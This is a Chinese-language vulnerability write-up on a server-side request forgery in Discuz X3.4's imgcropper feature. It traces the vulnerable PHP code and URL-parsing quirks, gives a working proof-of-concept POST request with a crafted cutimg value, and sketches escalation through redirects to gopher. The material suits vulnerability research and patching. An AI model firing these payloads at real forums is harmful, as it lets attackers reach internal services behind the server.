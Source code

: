 # Discuz x3.4 imgcropper ssrf

### 一、漏洞简介

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求，总的来说比较鸡肋

### 二、漏洞影响

### 三、复现过程

`source/class/class_image.ph`p image类init方法：


```php
  function init($method, $source, $target, $nosuffix = 0) {
        global $_G;

        $this->errorcode = 0;
        if(empty($source)) {
            return -2;
        }
        $parse = parse_url($source);
        if(isset($parse['host'])) {
            if(empty($target)) {
                return -2;
            }
            $data = dfsockopen($source);
            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
            if(!$data || $source === FALSE) {
                return -2;
            }
            file_put_contents($source, $data);
        }
        ......
  }
```

再找哪些地方调用了image类的init方法，发现image类的Thumb、Cropper、Watermark方法都调用了init。比如Thumb：


```php
  function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
        $return = $this->init('thumb', $source, $target, $nosuffix);
        ......
    }
```

所以再找哪些地方调用了image类的Thumb方法，最终发现：

source/module/misc/misc_imgcropper.php 52-57行：


```php
   require_once libfile('class/image');
    $image = new image();
    $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
    if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
        showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
    }
```

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 /，而 `$_G['setting']['attachurl']` 的值是 data/attachment/。所以似乎 `$prefix` 为 / 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为 `//10.0.1.1/get`，按道理来说这应该算是一个正常的 url，但是结果却请求失败了。

仔细跟进 _dfsockopen 发现，在 PHP 环境安装有 cURL 时，进入 curl 处理的代码分支，直到这里：


```bash
curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path);
```

`$scheme、$host、$port、$path` 都是 parse_url 解析 url 参数后的对应的值，而对像 //10.0.1.1/get 这样的 url 解析时，`$scheme` 的值是 null，因此最后拼接的结果是 ://10.0.1.1/get，没有协议，curl 最后对这种url的请求会自动在前面加上 HTTP://，结果就变成了请求 HTTP://://10.0.1.1/get，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 _dfsockopen 函数代码走 socket 发包的流程，踩了 parse_url 和 Dz 代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：


```bash
cutimg=/:@localhost:9090/dz-imgcropper-ssrf
```

**PoC**


```bash
POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
Host: ubuntu-trusty.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

imgcroppersubmit=1&formhash=f8472648
```

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![](images/15889920893183.png)


通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP 环境没有安装 curl 扩展），但是只能发 HTTP GET 请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl 是可以成功请求 HTTP://:/ 的，较高版本的 curl 会将这种 url 地址解析到 127.0.0.1 的 80 端口：

![](images/15889920983911.jpg)


最后他再利用之前 PHP parse_url 的解析 bug（ https://bugs.php.net/bug.php?id=73192 ），及利用 parse_url 和 curl 对 url 的解析差异，成功进行 302 跳转到任意恶意地址，最后再 302 跳转到 gopher 就做到发送任意数据包。详情可以参考 l3m0n 的博客：

Discuz x3.4前台SSRF - l3m0n - 博客园

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。